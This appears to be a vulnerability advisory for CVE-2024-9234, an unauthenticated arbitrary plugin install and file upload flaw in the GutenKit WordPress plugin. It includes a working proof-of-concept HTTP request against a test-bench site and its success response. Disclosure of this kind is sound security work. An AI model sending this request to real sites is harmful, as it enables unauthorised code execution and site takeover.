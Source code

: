 # CVE-2024-9234
GutenKit &lt;= 2.1.0 - Unauthenticated Arbitrary File Upload

# Description
The GutenKit – Page Builder Blocks, Patterns, and Templates for Gutenberg Block Editor plugin for WordPress is vulnerable to arbitrary file uploads due to a missing capability check on the install_and_activate_plugin_from_external() function (install-active-plugin REST API endpoint) in all versions up to, and including, 2.1.0. This makes it possible for unauthenticated attackers to install and activate arbitrary plugins, or utilize the functionality to upload arbitrary files spoofed like plugins.

```
Type: plugin
CVSS Score: 9.8
CVE: CVE-2024-9234
Slug: gutenkit-blocks-addon
```

Download Link: [Download gutenkit-blocks-addon Version 2.1.0](https://downloads.wordpress.org/plugin/gutenkit-blocks-addon.2.1.0.zip)

POC
--

```
POST /wp-json/gutenkit/v1/install-active-plugin HTTP/2
Host: wpscan-vulnerability-test-bench.ddev.site
Content-Type: application/json
Content-Length: 114

{
  "plugin": "https://downloads.wordpress.org/plugin/popularis-extra.1.2.6.zip",
  "slug": "popularis-extra"
}
```

```
{"success":true,"data":"Plugin installed successfully!"}
```
